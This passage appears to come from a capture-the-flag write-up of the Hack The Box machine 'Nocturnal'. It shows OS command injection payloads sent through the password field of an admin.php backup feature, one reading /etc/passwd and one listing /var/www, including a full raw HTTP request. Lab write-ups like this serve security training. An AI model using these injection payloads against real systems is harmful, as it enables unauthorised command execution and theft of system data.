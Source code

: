 ```shell

password=foobar%0Acat%09/etc/passwd<&0&backup=
```

![](images/2025-06-04_09-46_hotfix_os_command_injection_etc_passwd.png)

Now after our payload worked, we searched for the `nocturnal_database.db` which was now located within `/var/www/nocturnal_database/`.

```shell
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=8a93d5flq8vti3aeo38vn3n40o
Connection: keep-alive

password=foobar%0Als%09/var/www<&0&backup=
```
